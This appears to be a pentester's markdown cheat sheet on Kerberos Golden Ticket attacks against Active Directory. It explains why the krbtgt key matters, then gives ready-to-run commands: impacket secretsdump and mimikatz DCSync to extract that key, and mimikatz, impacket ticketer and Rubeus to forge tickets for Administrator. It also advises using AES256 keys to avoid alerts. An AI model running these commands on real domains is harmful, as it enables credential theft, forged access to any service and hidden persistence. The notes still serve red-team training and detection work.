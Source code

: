#impacket #mimikatz 
- TGTs are encrypted with the `krbtgt`'s key derived from it's password.
- `krbtgt` account password is not rotated automatically. Microsoft's best practice is to rotate every 6 months, which is more than enough time to maintain persistence.
- Password history for `krbtgt` account is maintained by the DC.
- If we get hold of this key, we can forge TGTs for any user subsequently getting access to any service as any user. These tickets are called Golden Tickets.
- This can be done using dumping credential of the domain controller or via [DC Sync](../Credential%20Dumping/DC%20Sync.md) attack.
- This can also be done by dumping the NTDS.dit file locally.
- Using impacket's secretsdump.py:
```bash
secretsdump.py 'mydomain.local/drdragon@192.168.2.2' -just-dc-user krbtgt
```
### Mimikatz
```powershell
kerberos::golden 
	/User:Administrator # user for which the TGT is generated
	/domain:<domain-FQDN>
	/sid:<domain-sid>
	/aes256:<aes256-kerberos-key>
	/id:<id> # Optional user RID. User ID should match the RID of the username specified above
	/groups:<group> # optional group ids
	/startoffset:0 # ticket availibity starts now. a negetive number means the ticket was available from past.
	/endin:600 # optional ticket lifetime (defautl is 10 years). Default AD settings for lifetime is 10 hours (600 minutes)
	/renewmax:10080 # Optional ticket lifeitme in minutes. Default AD setting is 7 days = 100800 minutes
	[/ptt(injects TGT in memory)|/ticket(saves ticket to file)]
```
### Impacket
```bash
ticketer.py -domain-sid <domainSID> -domain mydomain.local -aes <aesKey> Administrator
# This will create the TGT for the Administrator user and save it in Administrator.ccache
```
### Rubeus
```powershell
# Creates command for golden ticket by fetching information from DC using ldap
Rubeus.exe
	golden
	/aes256:<key> # AES256 key of the krbtgt account
	/ldap # make ldap query to fetch all information
	/user:Administrator # User for which golden ticket is creates
	/ptt # injects the ticket in memory
	[/printcmd] # prints the command for creating golden ticket manually using details fetched using ldap
```

---
- AES256 keys should be used to avoid any alerts or detection.
- AES keys for `krbtgt` account can also be obtained by performing [DC Sync](../Credential%20Dumping/DC%20Sync.md)
```powershell
# mimikatz
lsadump::dcsync /user:dcorp\krbtgt
```